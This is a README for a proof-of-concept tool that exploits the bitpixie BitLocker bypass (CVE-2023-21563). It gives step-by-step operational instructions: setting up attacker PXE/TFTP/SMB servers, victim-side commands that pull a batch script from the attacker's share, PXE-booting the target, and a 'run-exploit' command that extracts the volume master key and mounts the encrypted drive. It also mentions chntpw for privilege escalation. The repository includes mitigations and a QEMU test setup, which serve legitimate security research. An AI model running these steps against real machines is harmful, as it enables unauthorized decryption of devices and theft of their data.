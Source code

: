 # bitpixie Proof of Concept

## General concept of the attack
The Bitpixie bug was originally discovered by [Rairii](https://github.com/Wack0) and assigned CVE-2023-21563.
The first public demonstration of the full attack was performed by th0mas at 38c3: ["Windows BitLocker: Screwed without a Screwdriver"](https://media.ccc.de/v/38c3-windows-bitlocker-screwed-without-a-screwdriver).
Large parts of this repository are based on his work, that he also published as an article: ["Windows BitLocker -- Screwed without a Screwdriver"](https://neodyme.io/en/blog/bitlocker_screwed_without_a_screwdriver/) This article also explains potential mitigations.

[Marc André Tanner](https://github.com/martanne/bitpixie) also implemented the bitpixie exploit, you might want to check out his repository!

## Prerequisites and building process
In order to carry out this attack, the encrypted computer must meet certain requirements.
- It must use BitLocker without pre-boot authentication.
- It must be able to boot in PXE mode. Ideally, the PXE boot option is not disabled in the bios. On some systems, this attack may work even if PXE boot is disabled, as PXE boot can be enabled by connecting an external network card.
- The PCR Validation must not include `4`. Check with `manage-bde -protectors -get c:` This is default behaviour.

### Software requirements for the attacker machine
The following packages have to be installed on the attacker machine:
- dnsmasq
- impacket-smbserver
- (hivexregedit)

For debian based systems:
```bash
sudo apt install dnsmasq libwin-hivex-perl python3-impacket
```

To build the initramfs, clone the repository and execute build.sh:
```
$ git clone --depth 1 https://github.com/andigandhi/bitpixie
$ cd bitpixie
$ ./build.sh [-d|--debug]
```

See the chapter [`Building the initrd`](#building-the-initrd) for more
information.

> [!note]
> The repository with a prebuilt alpine initramfs can be found in the releases section.

## How to perform the attack
The attack consists of two separate steps.
First, a modified BCD configuration file must be created specifically for the victim.
The next step is to boot the target via PXE using the modified BCD file, so that the VMK can be extracted from memory.

The TFTP server can be started with the script `start-server.sh`:
```
Starting the SMB server for exchanging the BCD file:
$ ./start-server.sh smb <interface>

Starting the TFTP and DHCP server for PXE booting:
$ ./start-server.sh pxe <interface>
```

To boot into the linux system through PXE-boot, press Restart while holding down the Shift key.
This will reboot the machine into Advanced Boot Options.

### Extracting the BCD file
The BCD file can be exported using `bcdedit` on the victims machine.
If you are already local Administrator you can directly extract and modify the BCD file.

Otherwise you can open a cmd.exe from within the Advanced Boot Options by clicking *Troubleshoot -> Advanced Option -> Command line (-> Skip this drive)* and enter the following commands.

```
wpeutil initializenetwork
net use S: \\10.13.37.100\smb
cd %TEMP%
copy S:\create-bcd.bat .
.\create-bcd.bat
```

The modified BCD file will be directly moved to the attacker machine so you can directly start performing the actual bitpixie attack.

![BCD File Transfer](images/grab-bcd-smb.gif)

### Breaking BitLocker
Start the TFTP server in exploit mode: `./start-server.sh exploit <interface>`.

In the Advanced Boot Options click on `Use a device` and select IPv4 PXE Boot.
The PXE boot process should start and finally drop into the Alpine initramfs.

Log in as root and perform the bitpixie exploit on the victim machine:
```
initrd:~# run-exploit /dev/sda3
```
The BitLocker partition should now be mounted at /root/mnt.
If it did not work, reboot and try it again. Sometimes the VMK is not detected / overwritten.

> [!note]
> The alpine initramfs also has [chntpw](https://pkgs.alpinelinux.org/package/edge/community/x86_64/chntpw) installed for easy privilege escalation!

Don't forget to unmount the file system after performing your changes: `umount /root/mnt`!

![VMK Extraction](images/run-exploit.gif)


## Mitigations that work
- Use BitLocker with Pre Boot Authentication (TPM+PIN) (Preferred way, since it also prevents a bunch of other attacks against BitLocker.)
- Apply patch [KB5025885](https://support.microsoft.com/en-us/topic/how-to-manage-the-windows-boot-manager-revocations-for-secure-boot-changes-associated-with-cve-2023-24932-41a975df-beb2-40c1-99a3-b3ff139f832d#bkmk_mitigation_guidelines) as described in the Microsoft guideline.
- Disable UEFI network stack to completely disable PXE (If none of the above is possible)


## How to set up a test environment
### Setting up QEMU
This exploit can be tested using QEMU.

I installed Windows 11 ([Tiny 11](https://github.com/ntdevlabs/tiny11builder)) on a newly created disk, installed all security patches and activated BitLocker.
Before creating the virtual machine, I had to edit the loader and change it to `/usr/share/OVMF/OVMF_CODE_4M.ms.fd` as shown below.

![VirtManager Settings](images/qemu-machine-settings.png)

After enabling BitLocker, change the model type of the network interface to `virtio` and set the ROM to "no" (see [this bug](https://bugs.launchpad.net/maas/+bug/1789319)).
The XML of the network interface should look lke this:
```
<interface type="network">
  <model type="virtio"/>
  <rom enabled="no"/>
  [...]
</interface>
```

### Building the initrd
The complete `bitpixie-initramfs[.gz,.xz]` can be built using the script
`./build [-d|--debug]`. If the `--debug` flag is used the temporary rootfs
directory will be not deleted in order to manually examinate it via e.g. `sudo
[chroot|arch-chroot] /path/to/temp/initramfs sh`. The final gzipped initramfs
is automatically transfered to the `pxe-server/` directory.

The initramfs can be tested locally on the terminal via the example QEMU
command:

```
# Install qemu-system-x86_64 (minimal configuration)
# $ apt install qemu-system-x86
# Note: For more information see e.g. https://wiki.ubuntuusers.de/QEMU/
qemu-system-x86_64 \
  -m 1G -enable-kvm  \
  -kernel pxe-server/linux \
  -initrd pxe-server/bitpixie-initramfs \
  -append "console=ttyS0" \
  -nographic
```

> [!NOTE]  
> There are currently two user: `root` and `bitpix`. Login as `root`.

If a simple QEMU ethernet connection is required, the following flags can be
added:

```
# Extend QEMU with network capacity
# For more information see:
#   https://wiki.gentoo.org/wiki/QEMU/Options#Networking
#   https://wiki.archlinux.org/title/QEMU#Networking
#   https://wiki.qemu.org/Documentation/Networking
#
qemu-system-x86_64 \
  ... \
  -netdev user,id=net0 -device virtio-net-pci,netdev=net0
```

> [!NOTE]  
> If a specific functionality is missing then this could be due to a not loaded
> driver. All loaded drivers can be displayed with `lsmod` and loaded with
> `modprobe DRIVER`.
> To brutally load all modules (and probably trigger kernel crashes) the
> following command can be used:
> ```
>   $ find /lib/modules/5.14.0-1-amd64/ -name '*.ko' -exec sh -c 'modprobe $(basename {} | cut -d'.' -f1)' sh {} \;
> ```

## Alternative Method of obtaining the BCD (not recommended)
Boot the victim system into the initramfs using PXE boot: `./start-server.sh get-bcd <interface>`
On the victim machine you can identify the drive containing the Windows installation (often /dev/sda).

On the attacker machine execute the BCD extractor script:
```
$ ./grab-bcd.sh /dev/sda
[+] Info: Grabbing disk and partition GUIDs via SSH...
[...]
[+] Info: Created modified BCD file: pxe-server/Boot/BCD
```
This script obtains the disk and partition GUID from the victim computer and creates a registry patch file.
Afterwards the BCD-file gets patched and copied to pxe-server/Boot/BCD.
> [!note]
> The template file file needs to be served as `Boot\BCD` via PXE.

Now you are ready to perform the actual attack!
Reboot the victim system into the startup settings again.
